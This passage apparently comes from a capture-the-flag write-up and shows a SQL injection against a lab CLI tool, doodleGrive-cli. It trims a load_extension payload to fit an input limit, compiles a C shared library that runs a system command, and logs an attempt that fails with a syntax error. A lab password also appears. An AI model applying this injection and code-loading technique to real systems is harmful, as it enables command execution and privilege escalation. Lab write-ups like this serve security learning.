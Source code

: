 46 characters, over the limit. Let's take out the "a."

```
",load_extension(char(46,47,46,115,111));--
```

43 characters. At this point, we may as well take out the dot.

```
",load_extension(char(46,47,115,111));--
```

40 characters, just grazes our limit. Now it's a simple matter of writing and compiling a simple C program to do what we like.

```
#include <stdio.h>

int sqlite3_function_init() {
	system("/usr/bin/id");
	return 0;
}
```

Additionally, this specific function name is required because it is the default function SQLite3 loads from extensions first. The following `gcc` command compiles our C program into a shared library:
```
gcc -o so -fPIC -shared -nostartfiles so.c
```

Now we should be able to run `doodleGrive-cli` and exploit it with our payload plus our "extension." But success is to be foreseen:
```
tom@drive:~$ ./doodleGrive-cli    
[!]Caution this tool still in the development phase...please report any issue to the development team[!]  
Enter Username:  
moriarty  
Enter password for moriarty:  
findMeIfY0uC@nMr.Holmz!  
Welcome...!  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option: 5  
Enter username to activate account: ",load_extension(char(46,47,115,111));--  
Activating account for user '",load_extension(char(46,47,115,111))-'...  
Error: near ",": syntax error  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
5. activate user account  
6. Exit  
Select option: please Select a valid option...  
  
doodleGrive cli beta-2.2:    
1. Show users list and info  
2. Show groups list  
3. Check server health and status  
4. Show server requests log (last 1000 request)  
```